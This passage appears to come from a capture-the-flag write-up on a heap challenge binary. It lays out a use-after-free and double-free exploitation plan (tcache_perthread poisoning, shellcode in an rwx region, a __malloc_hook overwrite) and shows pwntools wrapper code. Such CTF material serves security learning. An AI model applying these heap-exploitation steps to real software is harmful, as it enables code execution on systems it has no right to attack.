Since we have Use After Free for the `edit` and `show` this will be our cue.

# Complications

The complications which made this binary a bit of menace to pwn was the amount of `free`, once can call, Since the number of the `free` that a user is allowed to call were 3, this made the subsequent process harder than usual. Second, the binary had the seccomp enabled, making it harder to get shell, which of course, was not possible because of the `execve` being blacklisted. Throughout the exploitation phase, we will see the methodologies to overcome over these complications and difficulties.

# Exploitation Metodology

The strategy of the exploitation is listed below:-

* Allocate two chunks.
* Double free the chunk 1.
* Leak the heap address with UAF.
* Overwrite the `fd` of chunk 1 to the `tcache_perthread_structure`  allocated at the top of the heap.
* Allocate chunks and get then overwrite the max size with a large value resulting in the tcache being disabled.
* Free the chunk 0, this will land into the unsorted bin since tcache is disabled now.
* Overwrite the `fd` with the `rwx` region and then store shellcode there.
* Overwrite the `fd` again, this time with the `__malloc_hook` and then overwrite it with the `rwx`.


# Pwning

The following are the wrapper functions:-

```py
from pwn import *  
  
#sh = process('./p1KkHeap')  
context(arch='amd64',os='linux')  
p = process("./p1KkHeap", env={"LD_PRELOAD":"./libc.so.6"})
#libc_path = '/lib/x86_64-linux-gnu/libc-2.27.so'  
libc_path = './libc.so.6'  
libc = ELF(libc_path)  
malloc_hook_s = libc.symbols['__malloc_hook']  
open_s = libc.sym['open']  
read_s = libc.sym['read']  
write_s = libc.sym['write']  
  
def create(size):  
   p.sendlineafter('Your Choice:','1')  
   p.sendlineafter('size:',str(size))  
  
def show(index):  
   p.sendlineafter('Your Choice:','2')  
   p.sendlineafter('id:',str(index))  
  
def edit(index,content):  
   p.sendlineafter('Your Choice:','3')  
   p.sendlineafter('id:',str(index))  
   p.sendafter('content:',content)  
  
def delete(index):  
   p.sendlineafter('Your Choice:','4')  
   p.sendlineafter('id:',str(index))
```
